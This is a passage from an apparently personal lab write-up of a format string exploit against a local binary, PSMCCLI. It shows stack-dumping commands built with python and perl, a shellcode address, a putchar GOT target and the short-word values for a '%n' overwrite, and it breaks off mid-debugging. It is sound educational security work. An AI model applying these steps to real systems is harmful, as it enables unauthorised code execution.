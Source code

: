 our goal now is to put the address from our SPAWN code `0xbffffe95` into the putchar `0x804a01c`

Checking to see if memory aligns correctly:

    /usr/local/bin/PSMCCLI AAAABBBB$(python -c "print '%08x.'*200") 

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553880262094_image.png)


*the 4 bytes of “A”s and “B”s are within our memory address where we will overwrite.*

Adding padding, with the stack not aligning quite right I had to add x2 "C”s for everything to sit correctly:

    /usr/local/bin/PSMCCLI AAAABBBBCC$(python -c "print '%08x.'*200")

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553880569576_image.png)



`0xbffffe95` = shell code location

    value to be written to lower short word: 0xfe95 = 65173
    value to be written to upper short word: 0xbfff = 49151


## Boy’s become Men

And it was at this point things quickly came off the rails. Basically finding the correct padding required for the shell code became an ever increasing problem. 3 days later a solution is found.

Enumerating the stack, from the above python script I quickly ran into issues as I was adding an extra 2 bytes with `%08x` along with some mind bending issues revolving using python to create the stack.

switching to perl and verifying with python things began to align.

On to the stack, and comparing them

perl:

     /usr/local/bin/PSMCCLI AAAABBBBCCC$(perl -e 'print "%x." x 137')

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553983645689_image.png)


python:

    /usr/local/bin/PSMCCLI AAAABBBBCCC$(python -c "print '%x.'*137")

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553983747757_image.png)


playing with both the padding of ‘C’s and narrowing down where they were located in this sequence began and repeated until I was able to align the A’s (41) and B’s (42). My combination that worked is as seen above.

next, we need to verify this location of our A’s and B’s due to the nature of this string exploit we can print off the stack with `%x` and eventually write to the stack with `%n`

Here is where problem 1 of many began,
passing our location the beginning of the A’s first thought of at being at `%134` yielded an output I was not expecting:
